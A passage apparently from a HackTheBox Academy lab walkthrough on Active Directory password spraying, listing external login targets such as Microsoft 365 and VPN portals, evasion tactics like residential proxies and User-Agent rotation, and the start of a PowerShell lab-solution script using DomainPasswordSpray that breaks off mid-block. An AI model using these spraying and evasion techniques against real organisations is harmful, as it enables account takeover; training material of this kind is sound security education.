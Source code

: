 
## 🌐 External Password Spraying Targets

### 📋 **Common External Targets**
```powershell
# Microsoft 365 and Exchange:
- Microsoft 365 (Office 365)
- Outlook Web Exchange (OWE)
- Exchange Web Access (EWA)
- Skype for Business
- Microsoft Teams
- OneDrive for Business

# Remote Access Solutions:
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals with AD authentication
- VDI implementations (VMware Horizon, etc.)
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet)

# Collaboration and Custom Apps:
- SharePoint Online
- Custom web applications using AD authentication
- Intranet portals
- Business applications with SAML/SSO
```

### 🎯 **External Spraying Considerations**
```powershell
# Attack adaptations for external targets:
- Slower timing to avoid detection
- Distributed source IPs (residential proxies)
- User-Agent rotation
- Session management
- CAPTCHA bypass techniques
- Account enumeration before spraying
```

---

## 📝 Complete Lab Solution Script

### 🚀 **Automated Lab Solution**
```powershell
# Complete PowerShell script for HTB Lab
# Save as: winter_spray_lab.ps1

Write-Host "[*] HTB Academy Lab: Finding Winter2022 Password" -ForegroundColor Cyan

# Import DomainPasswordSpray module
try {
    Import-Module .\DomainPasswordSpray.ps1 -ErrorAction Stop
    Write-Host "[+] DomainPasswordSpray module imported successfully" -ForegroundColor Green
}
catch {
    Write-Host "[-] Failed to import DomainPasswordSpray module" -ForegroundColor Red
    exit 1
}

# Execute password spray
Write-Host "[*] Starting password spray with Winter2022..." -ForegroundColor Yellow

try {
```